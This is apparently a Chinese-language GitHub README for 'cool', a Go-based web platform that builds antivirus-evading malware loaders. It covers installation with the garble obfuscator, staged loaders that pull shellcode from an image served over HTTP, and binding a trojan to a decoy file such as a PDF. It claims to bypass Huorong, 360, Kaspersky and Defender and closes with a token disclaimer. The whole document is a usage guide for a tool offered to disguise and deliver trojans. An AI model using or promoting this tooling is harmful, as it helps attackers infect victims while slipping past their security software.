 # cool
时间线：
- Golang Gin 框架写的免杀平台- (2021.11.12)
- Golang Gin 框架写的免杀平台，更新捆绑免杀- (2021.11.20)
- 增加自定义捆绑，修复一个小bug- (2021.11.22)
- 上传"compile.exe_备份"，在\service\executable\下，如果生成免杀是0kb的话就把原来的compile.exe删掉，把"compile.exe_备份"改成compile.exe，这样的话混淆效果会变差。。。但是至少能用了-（2021.11.25）
## 安装
1. 安装Go环境，版本要**1.17**及以上；
2. 如果是首次安装Go环境，安装完毕后要配置代理，执行以下这两条命令:
 -  **go env -w GO111MODULE=on** 
 -  **go env -w GOPROXY=https://goproxy.io,direct** 
3. 完毕后执行 **go install mvdan.cc/garble@latest** ；
4. 下载本项目到D盘根目录，文件夹名字改为cool；
5. 运行cool.exe；
6. 访问 **http://127.0.0.1:9000** 。

## 使用
为减去浏览器扫描的时间，故生成的文件格式为txt，使用时只需要把后缀修改为前端提示的后缀就可以了。
### 1. 加密1
- 直接执行exe。
### 2. 加密2
- 直接执行exe。
### 3. 分离1(houqing) 
- 用python起一个HTTP服务(python -m http.server 8080)，
- 把图片放到起http服务的目录下，
- 执行exe 参数为http服务的图片路径（xxx.exe http://127.0.0.1:8080/a.jpg) 。
### 4. 分离2
#### 上线方式1
- 用python起一个HTTP服务(python -m http.server 8080)，
- 把图片放到起http服务的目录下，
- 执行exe 参数为http服务的图片路径（xxx.exe http://127.0.0.1:8080/a.jpg) 。
#### 上线方式2
- 执行xxx.exe 参数为shellcode.txt里的内容 。
### 5. 捆绑上线
#### 捆绑内置免杀马
- 填写信息(免杀方式、listeners或者shellcode等)，
- 上传需要和木马捆绑的文件，
- 下载完毕后将后缀改为exe，
- 图标自行修改。
#### 捆绑自定义木马
- 第一个文件选择木马(木马.exe)，第二个文件选择要捆绑的文件(如pdf等)
- 点击生成

目前火绒、360、卡巴斯基、def全过；先这样用，不能bypass了再说，更新频率看star数量🐕。

## 声明：仅用于技术交流，请勿用于非法用途。

